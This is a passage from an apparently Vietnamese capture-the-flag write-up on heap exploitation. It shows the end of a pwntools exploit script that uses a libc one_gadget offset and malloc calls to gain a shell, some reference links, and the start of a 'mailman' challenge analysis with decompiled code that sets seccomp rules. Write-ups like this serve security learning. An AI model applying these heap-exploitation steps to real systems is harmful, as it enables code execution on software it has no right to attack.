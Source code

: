 ```python
payload3 += p64(0xebcf8+libc.address)  #rsi null , rdx null
malloc(5,0x130,payload2)
malloc(6,0x100,b'nothing')
malloc(7,0x100,payload3)

p.interactive()
```

ref : 

[1 bài kĩ thuật tương tự](https://ret2school.github.io/post/mailman/)

[1 writeup khác](https://zenn.dev/t0m3y/articles/d42397182c694d#fsop)

[safe_linking](https://fascinating-confusion.io/posts/2020/11/csr20-howtoheap-writeup/)



## mailman


- 1 bài heap kết hợp seccomp  

### overview

- đầu tiên ta có thể thấy nó setup ```seccomp``` ta sẽ check nó sau , tiếp theo ta có 3 option ```write , send and read```

```cs
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  void *ptr; // rax
  int choice; // [rsp+Ch] [rbp-24h] BYREF
  size_t size; // [rsp+10h] [rbp-20h] BYREF
  __int64 v6; // [rsp+18h] [rbp-18h]
  __int64 v7; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  v6 = seccomp_init(0LL, argv, envp);
  seccomp_rule_add(v6, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v6, 2147418112LL, 0LL, 0LL);
  seccomp_rule_add(v6, 2147418112LL, 1LL, 0LL);
  seccomp_rule_add(v6, 2147418112LL, 5LL, 0LL);
  seccomp_rule_add(v6, 2147418112LL, 60LL, 0LL);
  seccomp_load(v6);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts("Welcome to the post office.");
  puts("Enter your choice below:");
  puts("1. Write a letter");
  puts("2. Send a letter");
  puts("3. Read a letter");
  while ( 1 )
  {
    while ( 1 )
    {
      printf("> ");
      __isoc99_scanf("%d%*c", &choice);
      if ( choice != 3 )
        break;
      v7 = inidx();
      puts(*((const char **)&mem + v7));
    }
    if ( choice > 3 )
      break;
    if ( choice == 1 )
```